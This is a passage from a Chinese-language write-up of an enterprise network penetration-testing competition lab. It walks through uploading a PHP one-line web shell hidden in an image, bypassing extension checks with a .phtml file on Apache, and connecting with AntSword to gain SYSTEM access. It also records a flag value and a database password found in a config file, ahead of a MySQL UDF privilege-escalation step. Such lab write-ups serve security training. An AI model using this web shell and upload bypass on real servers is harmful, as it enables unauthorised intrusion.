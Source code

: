 ![image-20220530095708000000-1656056031101752.png](img/中小型企业环境网络安全渗透赛 local/5f39af257662b6962b73a4e4ec327d57.png)

尝试上传图片马，抓取上传图片的数据包，在图片内容最后加上`<?php phpinfo(); @eval($_POST['123']);?>`后发送到重发器。

![image-20220530100016000000-1656056032751398.png](img/中小型企业环境网络安全渗透赛 local/ae505cfb03e3c9777bf94028a6c09902.png)

上传成功，并返回路径

![image-20220530100250000000-1656056034390188.png](img/中小型企业环境网络安全渗透赛 local/c56d036ac38bbabf90f4e1a16122c2e6.png)

修改文件名为能够解析的文件，经过多次尝试均失败。由于中间件是Apache，尝试上传phtml文件，Apache会解析phtml文件。

![image-20220530100512000000-1656056036027936.png](img/中小型企业环境网络安全渗透赛 local/30d1de2f5cdbe6bf02eedc5913fef8e8.png)

访问返回的文件路径。

![image-20220530100658000000-1656056037682148.png](img/中小型企业环境网络安全渗透赛 local/b1f45323836a2ca96647f7406639ae2d.png)

蚁剑连接，密码123。

![image-20220530101102000000-1656056039311924.png](img/中小型企业环境网络安全渗透赛 local/2446ac4e73d02302e49e3adc34d86d9c.png)

![image-20220530100846000000-1656056040950039.png](img/中小型企业环境网络安全渗透赛 local/5b504b16d02f1f8957056a1b8ca549e2.png)

成功getshell

输入命令`whoami`查看身份。

是system权限

![image-20220525095754000000-1656056042524114.png](img/中小型企业环境网络安全渗透赛 local/42e902bd5bac8df2d602dfdfb6f38211.png)

web主机的flag文件

位置：`C:\Users\Administrator\flag.txt`

```
flag{82B4-A07A-5DD7-8C81-9C41-3517-0DAB-AC8E}
```



##### 任务3：MySQL进行udf提权（T1190-利用面向公众的应用程序、T1078-利用有效账户凭据）

通过蚁剑找到数据库的连接信息，配置文件位置：

`C:/Apache24/htdocs/inc/config.php`

![image-20220528122644000000-1656056044163410.png](img/中小型企业环境网络安全渗透赛 local/002c94150498c13b6a60b116f09166b3.png)

发现数据库密码：`Cf5BAMPTYkrx`

![image-20220528122550000000-1656056045796631.png](img/中小型企业环境网络安全渗透赛 local/07a49e345e010487f08c4302d7e2829f.png)

攻击机使用Navicat Premium本地连接mysql

![image-20220528124600000000-1656056047429368.png](img/中小型企业环境网络安全渗透赛 local/4e68586a2f782b589914d0f836ffdd31.png)
